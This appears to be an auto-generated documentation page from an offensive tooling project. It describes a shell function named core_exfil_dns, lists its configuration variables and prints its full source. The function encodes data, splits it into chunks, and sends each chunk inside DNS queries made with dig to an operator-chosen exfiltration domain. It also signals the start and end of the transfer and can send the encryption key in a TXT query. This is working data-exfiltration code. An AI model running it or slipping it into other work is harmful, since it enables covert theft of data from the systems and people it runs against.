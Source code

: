 # Exfil Dns

### Purpose
core_exfil_dns function implementation from base.sh.

### Dependencies
| Type | Name | Value |
|------|------|-------|
| Global Variable | `CHUNK_SIZE` | 50 |
| Global Variable | `CMD_BASE64` | "base64" |
| Global Variable | `CMD_DIG` | "dig" |
| Global Variable | `CMD_PRINTF` | "printf" |
| Global Variable | `CMD_SLEEP` | "sleep" |
| Global Variable | `ENCODE` | "none" |
| Global Variable | `ENCRYPT` | "none" |
| Global Variable | `ENCRYPT_KEY` | "" |
| Global Variable | `EXFIL_URI` | "" |
| Global Variable | `JOB_ID` | "" |
| Function | `core_debug_print()` | For debug print |
| Function | `core_dns_safe_encode()` | For dns safe encode |
| Function | `core_exfil_dns()` | For exfil dns |
| Command | `tr` | For tr operations |

<details>

```shell
core_exfil_dns() {
local data="$1"
    
            if [ -z "$EXFIL_URI" ]; then
                return 1
            fi
            
    # Prepare DNS-safe data
            local dns_data="$data"
    if [ "$ENCODE" = "none" ]; then
                dns_data=$(core_dns_safe_encode "$data")
            else
                dns_data=$("$CMD_PRINTF" '%s' "$dns_data" | tr '+/' '-_' | tr -d '=')
            fi
    
    # Calculate appropriate chunk size for DNS
            local max_label_size=63
    local prefix_length=10  # Approximate length of prefix like "p0."
            local max_allowed_chunk=$((max_label_size - prefix_length))
            local max_chunk_size=$CHUNK_SIZE
    
            if [ $max_chunk_size -gt $max_allowed_chunk ]; then
                max_chunk_size=$max_allowed_chunk
            fi
    
    # Send start signal
            if ! $CMD_DIG $CMD_DIG_OPTS "start.${EXFIL_URI}" A > /dev/null 2>&1; then
                return 1
            fi
    
    # Send encryption key via TXT record if encryption is enabled
    if [ "$ENCRYPT" != "none" ] && [ -n "$ENCRYPT_KEY" ]; then
        # Convert key to base64 DNS-safe format
        local dns_safe_key
        dns_safe_key=$("$CMD_PRINTF" '%s' "key:$ENCRYPT_KEY:$JOB_ID" | $CMD_BASE64 | tr '+/' '-_' | tr -d '=')
        
        # Send key via DNS TXT query
        if ! $CMD_DIG $CMD_DIG_OPTS "key-$JOB_ID.${EXFIL_URI}" TXT > /dev/null 2>&1; then
            core_debug_print "Failed to send encryption key via DNS TXT record, continuing anyway"
        fi
        
        # Brief pause after sending key
        $CMD_SLEEP 0.2
    fi
    
    # Send data in chunks
    local chunk_num=0
    local start_pos=0
            local data_len=${#dns_data}
    
    while [ $start_pos -lt $data_len ]; do
                local chunk="${dns_data:$start_pos:$max_chunk_size}"
        start_pos=$((start_pos + max_chunk_size))
        
                local query="p${chunk_num}.${chunk}.${EXFIL_URI}"
                if ! $CMD_DIG $CMD_DIG_OPTS "$query" A > /dev/null 2>&1; then
            return 1
                fi
                
                $CMD_SLEEP 0.1  # Rate limiting
        chunk_num=$((chunk_num + 1))
    done
    
    # Send end signal
                if ! $CMD_DIG $CMD_DIG_OPTS "end.${EXFIL_URI}" A > /dev/null 2>&1; then
                    return 1
                fi
                
                return 0
}
```

</details> 
